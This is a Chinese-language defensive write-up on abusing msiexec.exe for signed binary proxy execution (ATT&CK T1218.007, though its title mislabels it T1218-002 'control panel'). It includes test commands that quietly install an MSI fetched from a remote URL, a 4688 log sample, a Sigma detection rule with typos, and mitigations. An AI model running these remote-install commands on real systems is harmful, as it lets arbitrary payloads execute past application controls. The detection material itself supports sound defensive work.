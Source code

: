 # T1218-002-win-签名的二进制代理执行：控制面板

## 来自ATT&CK的描述

攻击者可能滥用msiexec.exe来代理恶意有效负载的执行。Msiexec.exe是Windows安装程序的命令行实用程序，因此通常与执行安装包（.msi）相关联。Msiexec.exe由Microsoft进行数字签名。

攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。Msiexec.exe还可以执行DLL。由于Msiexec.exe在Windows系统上是签名的，因此可以使用Msiexec.exe绕过不考虑其潜在滥用的应用程序控制解决方案。如果启用了AlwaysInstallElevated策略，Msiexec.exe的执行也可以提升为系统权限。

## 测试案例

来自微软的msiexec介绍：<https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec>

```yml
msiexec.exe /q /i "C:\path\xx.msi"
msiexec.exe /q /I http://8.8.4.4/xx.msi
msiexec.exe /y "C:\path\xx.dll"
```

## 检测日志

windows security

## 测试复现

仅做演示：

```yml
C:\Users\Administrator>msiexec.exe /q /I http://www.baidu.com/1.msi
```

## 测试留痕

windows 安全日志 4688

```yml
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0x9D23C

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x19c
 新进程名称: C:\Windows\System32\msiexec.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x690
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: msiexec.exe  /q /I http://www.baidu.com/1.msi
```

## 检测规则/思路

### Sigma规则

```yml
title: 使用msiexec.exe执行恶意程序
description: 攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。
status: experimental
references:
    - https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec 
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​        EventID:
​               - 4688 #Windows 安全日志
         New Process Name: 'msiexec .exe' #Application Name
         Commanline: 
                - '/q'
                - '/y'
                - '/i'
​    condition: selection
level: low
```

## 建议

使用进程监控来监视msiexec.exe的执行和参数。将msiexec.exe的最近调用与已知良好自变量和执行的MSI文件或DLL的先前历史进行比较，以确定异常和潜在的对抗活动。在调用msiexec.exe之前和之后使用的命令参数在确定正在执行的MSI文件或DLL的来源和用途方面也可能很有用。

## 缓解措施

1. 禁用或删除功能或程序：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。
2. 特权账户管理：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。

## 参考推荐

MITRE-ATT&CK-T1218-007

<https://attack.mitre.org/techniques/T1218/007/>

跟着ATT&CK学安全之defense-evasion

<https://snappyjack.github.io/articles/2020-01/%E8%B7%9F%E7%9D%80ATT&CK%E5%AD%A6%E5%AE%89%E5%85%A8%E4%B9%8Bdefense-evasion>
